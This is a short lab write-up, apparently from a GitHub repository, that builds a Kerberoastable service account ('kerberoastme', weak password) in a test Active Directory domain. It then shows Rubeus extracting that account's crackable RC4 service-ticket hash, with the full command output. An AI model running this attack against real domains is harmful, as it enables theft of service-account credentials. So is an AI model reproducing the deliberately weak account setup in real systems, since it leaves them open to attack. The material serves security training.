 

## Generate vulnerability

Create OU for service accounts

![image](https://user-images.githubusercontent.com/13157446/129405912-68180d26-1ab2-447f-9e59-4d8f123ffec9.png)


Create service account

	#requires -module ActiveDirectory

	$destou="OU=Service Accounts,DC=valhalla,DC=local"

	$psw = convertto-securestring "Pass123!" -asplaintext -force
	New-ADUser -Path $destou -Name "kerberoastme"  -AccountPassword $psw -Enabled $true -AllowReversiblePasswordEncryption $false -CannotChangePassword $true -PasswordNeverExpires $true

Set SPN for service account

![Pasted image 20210813214029](https://user-images.githubusercontent.com/13157446/129405121-db8df286-38e3-4d16-a601-3bde3cf1da20.png)


## Exploitation

Enum SPN users with Rubeus


	PS C:\Users\thor\Desktop> .\Rubeus.exe kerberoast

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v1.6.4


	[*] Action: Kerberoasting

	[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
	[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

	[*] Searching the current domain for Kerberoastable users

	[*] Total kerberoastable users : 1


	[*] SamAccountName         : kerberoastme
	[*] DistinguishedName      : CN=kerberoastme,OU=Service Accounts,DC=valhalla,DC=local
	[*] ServicePrincipalName   : http/kerberoastme:80
	[*] PwdLastSet             : 13.08.2021 18:25:06
	[*] Supported ETypes       : RC4_HMAC_DEFAULT
	[*] Hash                   : $krb5tgs$23$*kerberoastme$valhalla.local$http/kerberoastme:80*$B186F27C57F71BA5F
								 241C8F4CEC3403D$A9F7BD89F86353311FAC0F723D490CEE6D045ABA26D43922AFF80BA6407219F8
								 AD5922E6C0681F3DCF8744B43C194CD52963C7667821068581058CFC7D98FD270E7BC5675E737B09
								 F35D9E646CECE872EC5731B272456C74BD6A8F15EF7F01ED90731CEF75C65B58C299CFC740F528B2
								 6B4CD0FB19929C81B474B0C4805D68680EA4E7C6B52433A16A8FFF72B7057D9E5BCC08931CD6E993
								 ACC28E2AEA5222EDDF3FAB46409D0D4348256F5D2C5E5EBACCE9A9DE1F4C1A498DA6F7A03BE83953
								 0109356BA479577185777F62A01803CC8F2FC9656FAF8AC6E0A2500F0CB5D539C2ABD4CD1A978B1A
								 777C840AA2B29DE5E10BC17F5DA3A343D639C13705359E91D2CE0D3F027784BDBDE049F119FC944C
								 975EE01CA80957640C985B13A99C0B8D425282EAD9F1EFB5714058664FFA83303F3B507089A27FA8
								 43540B17C72D9ED051E93C1301BA4CFF6BDA4B2B94FE2E96C878938F11DB6DF7769B561FB0299B8A
								 38412DA88AB43EC49227AFC39D59440C7524EFE7E8BB2B32F0C166922F2FF11132BB6F29CEE0A6B8
								 72BD55C119BAC3A620D0D13223ABCAC2ABAFB19B1599524293DADAC156337C34DB0E6AF072F90143